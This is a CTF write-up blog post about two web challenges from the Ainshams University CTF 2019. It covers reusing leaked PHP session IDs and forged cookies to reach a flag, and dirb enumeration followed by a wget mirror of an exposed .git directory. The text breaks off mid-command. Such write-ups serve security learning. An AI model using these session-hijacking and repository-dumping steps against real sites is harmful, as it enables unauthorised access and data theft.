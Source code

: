 ```yaml
---
date: 2019-11-30 23:48:05
layout: post
title: CyberTalents - Ainshams University CTF2019
subtitle: Ainshams University Writeup
description: >-
  It was very easy Web Challenge.
image: >-
  /assets/img/WebCTF/ainshams/banner.jpg
optimized_image: >-
  /assets/img/WebCTF/ainshams/banner.jpg
category: blog
tags:
  - websec
  - cybertalents
  - rce
author: Hazem Hesham
paginate: true
---
```


I will solve the web Challenges in this post so there are two challenge select anyone you need and enjoy  

1. [Dark Session](#dark-session)
2. [Broken Doors](#broken-doors)  

# Dark Session

As the usual I will run dirb  but in i found nothing bad luck xD  

So let's see the the source code  

Yes i found brainFuck encryption  

![image](/assets/img/WebCTF/ainshams/1.png)

So let's decode it [dcode.fr](https://www.dcode.fr/brainfuck-language)  

Awsomme we got something looks useful  
```javascript
if(document.cookie !== ''){        $.post('getuserinfo.php',{          'PHPSESSID':document.cookie.match(/PHPSESSID=([^;]+)/)[1](        },function(data){2          cu = data;<        });F      }
```
There are `getuserinfo.php` and it's takes POST data `PHPSESSID= ???`  

So let's see what's inside it  

![image](/assets/img/WebCTF/ainshams/2.png)  

Ahaa it's API Hmmm  

So we need value for PHPSESSID to get the userinfo  

Let's back to `/Dark-Sessions/` and see again on it  

Damn I got this message   
```
Session not found in our secret place , {http://tiny.cc/u16dfz}
```

It's pastbin and there are Secret Sessions
```
#Secret_Sessions#
iuqwhe23eh23kej2hd2u3h2k23
11l3ztdo96ritoitf9fr092ru3
ksjdlaskjd23ljd2lkjdkasdlk
```
So let put it in Cookie and see what will happen  

```bash
GET /Dark-Sessions/ HTTP/1.1
Host: 54.93.122.202
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ar,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=11l3ztdo96ritoitf9fr092ru3
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
Shit I got anther message 
```
UserInfo Cookie don't have the username , you need to go deeper... 
```
I think i need to get the username and put it in Cookie too in UserInfo   

So let's try to send the session in the API and let's see what will happen  

![image](/assets/img/WebCTF/ainshams/3.png)

Awsome i got the username it's so easy  

let's put it in the Cookie  

![image](/assets/img/WebCTF/ainshams/4.png)

Woow it's so easy we got the flag
```
Secret_session_gained_succefully
```
# Broken doors

As the usual I will run dirb  

```Bash
root@kali:~/Desktop# dirb http://18.197.166.159/Broken-doors/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sat Nov 30 12:15:24 2019
URL_BASE: http://18.197.166.159/Broken-doors/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4614

---- Scanning URL: http://18.197.166.159/Broken-doors/ ----
+ http://18.197.166.159/Broken-doors/.git/HEAD (CODE:200|SIZE:23)
^C> Testing: http://18.197.166.159/Broken-doors/_tempalbums
```
Yes I got .git so lets download it

```Bash
root@kali:~/Desktop/cyber# rm .git
root@kali:~/Desktop/cyber# mkdir git
root@kali:~/Desktop/cyber# cd git
root@kali:~/Desktop/cyber/git# wget -r http://18.197.166.159/Broken-doors/.git/
--2019-11-30 10:56:36--  http://18.197.166.159/Broken-doors/.git/
Connecting to 18.197.166.159:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘18.197.166.159/Broken-doors/.git/index.html’

18.197.166.159/Brok     [ <=>                ]   1.39K  --.-KB/s    in 0s

2019-11-30 10:56:36 (71.8 MB/s) - ‘18.197.166.159/Broken-doors/.git/index.html’ saved [1420]

Loading robots.txt; please ignore errors.
--2019-11-30 10:56:36--  http://18.197.166.159/robots.txt
Reusing existing connection to 18.197.166.159:80.
HTTP request sent, awaiting response... 404 Not Found
2019-11-30 10:56:36 ERROR 404: Not Found.

--2019-11-30 10:56:36--  http://18.197.166.159/Broken-doors/
Reusing existing connection to 18.197.166.159:80.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘18.197.166.159/Broken-doors/index.html’

18.197.166.159/Brok     [ <=>                ]   2.47K  --.-KB/s    in 0s

2019-11-30 10:56:36 (5.19 MB/s) - ‘18.197.166.159/Broken-doors/index.html’ saved [2531]

--2019-11-30 10:56:36--  http://18.197.166.159/Broken-doors/.git/branches/
```
```Bash
root@kali:~/Desktop/cyber/git/18.197.166.159# cd Broken-doors/
root@kali:~/Desktop/cyber/git/18.197.166.159/Broken-doors# ls
index.html
root@kali:~/Desktop/cyber/git/18.197.166.159/Broken-doors# ls -la
total 16
drwxr-xr-x 3 root root 4096 Nov 30 10:56 .
drwxr-xr-x 3 root root 4096 Nov 30 10:56 ..
drwxr-xr-x 8 root root 4096 Nov 30 10:56 .git
-rw-r--r-- 1 root root 2531 Nov 30 10:56 index.html
root@kali:~/Desktop/cyber/git/18.197.166.159/Broken-doors# cd .git
root@kali
```
